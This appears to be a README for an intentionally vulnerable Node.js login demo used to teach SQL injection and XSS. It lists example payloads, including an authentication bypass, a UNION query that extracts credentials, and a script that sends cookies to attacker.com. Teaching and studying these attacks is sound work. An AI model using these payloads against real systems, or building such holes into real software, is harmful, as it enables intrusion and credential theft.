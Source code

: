 # Login Demo - Vulnerability Demonstration

## Project Purpose

This project is an educational tool designed to demonstrate common web application vulnerabilities, specifically SQL Injection (SQLi) and Cross-Site Scripting (XSS). It provides two versions of the same login application:

1. A **dev** version with multiple vulnerabilities
2. A **stable** version with some vulnerabilities fixed

Use this application in controlled environments only, such as classroom demonstrations, workshops, or educational events about web security.

## Technologies Used

- **Backend**: Node.js with Express
- **Database**: PostgreSQL
- **Containerization**: Docker and Docker Compose
- **Frontend**: Simple HTML

## Versions and Vulnerabilities

### Dev Version (Port 3000)

The development version contains the following vulnerabilities and bugs:

1. **SQL Injection**: Directly concatenates user input into SQL queries
2. **Cross-Site Scripting (XSS)**: Reflects unsanitized user input in the response HTML
3. **Password Validation Bugs**:
   - Incorrect length validation (requires 6-10 characters instead of the intended 5-10)
   - Missing lowercase letter validation
   - Allows single and double quotes in passwords

### Stable Version (Port 3001)

The stable version has improved security but still contains intentional vulnerabilities:

1. **SQL Injection**: FIXED - Uses parameterized queries to prevent SQLi
2. **Cross-Site Scripting (XSS)**: Still vulnerable - continues to reflect unsanitized user input
3. **Password Validation Bugs**: FIXED - Correctly validates passwords according to rules:
   - 5-10 characters length
   - At least one uppercase letter
   - At least one lowercase letter
   - At least one number
   - Only alphanumeric characters

## Example Payloads

### SQL Injection (Dev Version Only)

#### Basic Authentication Bypass
```
' OR '1'='1' --
```

#### Extracting Database Credentials
```
' UNION SELECT id, username, password FROM users --
```

This payload will extract all usernames and passwords from the database. The application will log the extracted data to the console.

### XSS (Both Versions)

#### Simple Alert
```html
<script>alert('XSS Vulnerability!')</script>
```

#### More Advanced Example
```html
<img src="x" onerror="alert(document.cookie)">
```

#### Data Exfiltration (Conceptual)
```html
<script>
  fetch('https://attacker.com/steal?cookie='+document.cookie)
</script>
```

## Running the Application

### Prerequisites

- Docker and Docker Compose installed
- Git to clone the repository

### Setup and Run

1. **Clone the repository:**
   ```bash
   git clone https://github.com/your-username/login-demo-qtm.git
   cd login-demo-qtm
   ```

2. **Create a .env file with the following content:**
   ```
   POSTGRES_USER=postgres
   POSTGRES_PASSWORD=postgres
   POSTGRES_DB=login_demo
   DB_PORT=5432
   PORT=3000
   ```

3. **Build and start the containers:**
   ```bash
   docker-compose up --build
   ```

4. **Access the applications:**
   - Dev version (SQLi + XSS): http://localhost:3000
   - Stable version (XSS only): http://localhost:3001

5. **Stop the application:**
   ```bash
   # Press Ctrl+C in the terminal where docker-compose is running
   docker-compose down
   ```

## Demo Instructions

### SQL Injection Demo (Dev Version)

1. Go to http://localhost:3000
2. Enter the payload `' UNION SELECT id, username, password FROM users --` in the username field
3. Enter any text in the password field
4. Submit the form
5. Check the server logs to see the credentials extracted from the database

### XSS Demo (Both Versions)

#### For Dev Version
1. Go to http://localhost:3000
2. Enter a valid username/password combination
3. Notice the alert when successfully logged in

#### For Stable Version
1. Create a user with a malicious script as the username (requires direct database access)
2. Go to http://localhost:3001
3. Log in with that username and its password
4. Notice the alert when successfully logged in

## Security Warning

This application is intentionally vulnerable and should NEVER be deployed in a production environment or exposed to the public internet. It is designed solely for educational purposes in a controlled environment.